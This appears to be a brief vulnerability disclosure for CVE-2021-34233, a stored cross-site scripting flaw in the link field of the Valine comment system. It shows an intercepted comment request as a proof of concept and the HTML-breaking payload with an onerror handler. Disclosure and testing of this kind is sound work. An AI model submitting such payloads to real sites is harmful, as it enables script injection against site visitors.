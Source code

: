 # CVE-2021-34233

### Summary

Comment links are vulnerable to XSS



### Details

Submitting comments and grabbing packets with burpsuite



![](.\images\1.png)

poc

```python
{"comment":"1\n","nick":"test","mail":"test@163.com","link":"\" ></a><img src=x onerror=alert(1)>","ua":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0","url":"/faq.html","QQAvatar":"","ip":"2406:da14:727:6700:2746:774b:2b87:6dbe","insertedAt":{"__type":"Date","iso":"2021-06-03T15:59:08.981Z"},"ACL":{"*":{"read":true}}}
```

link payload is 

```python
\" ></a><img src=x onerror=alert(1)>
```



so result :

![](.\images\2.png)



### link

+ [评论链接存在XSS漏洞 · Issue #363 · xCss/Valine · GitHub](https://github.com/xCss/Valine/issues/363)

